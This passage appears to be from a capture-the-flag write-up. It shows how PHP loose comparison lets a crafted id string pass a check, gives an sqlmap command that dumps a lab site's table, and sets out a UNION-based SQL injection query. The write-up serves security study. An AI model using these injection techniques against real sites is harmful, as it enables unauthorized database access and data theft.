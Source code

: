 Now, php is going to compare my input string to the int 25. This is where the
[difference between == and ===
comes](https://stackoverflow.com/questions/80646/how-do-the-php-equality-
double-equals-and-identity-triple-equals-comp) into place in php. It turns out
that `25 == "25 0xdf this is a test"` is true.

    
        php > if (25 == "25 0xdf this is a test") { echo "true"; } else { echo "false";} ;
    true
    php > if (25 === "25 0xdf this is a test") { echo "true"; } else { echo "false";} ;
    false
    

All of this is to say that as long as my input starts with a number followed
by a space, I can pass this check.

  3. `in_array(intval($_GET['id']),$valid_ids)` \- Given what I showed in 2., this isn’t really a challenge. I just need to make sure my input starts with one of the three numbers in `$valid_id`.

#### Controlling id –> tpl

I’ll look at the first sql query:

    
    
    SELECT name FROM idname where id = $_GET['id']
    

I can use my SQLI to see what that table looks look:

    
    
    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T idname --dump
    ...[snip]...
    +-----+-------------+----------+
    | id  | name        | disabled |
    +-----+-------------+----------+
    | 1   | main.php    | 1        |
    | 2   | about.php   | 1        |
    | 3   | contact.php | 1        |
    | 25  | main        | 0        |
    | 465 | about       | 0        |
    | 587 | contact     | 0        |
    +-----+-------------+----------+
    

So it’s going to return a string, and the expected three values are `main`,
`about`, and `contact`. To see if I can control the output of this function,
I’ll start with id 587, and see if I can get it to load the about page (id
465). I’ll want a query that looks like:

    
    
    SELECT name FROM idname where id = 587 and 1=2 UNION select "about"
    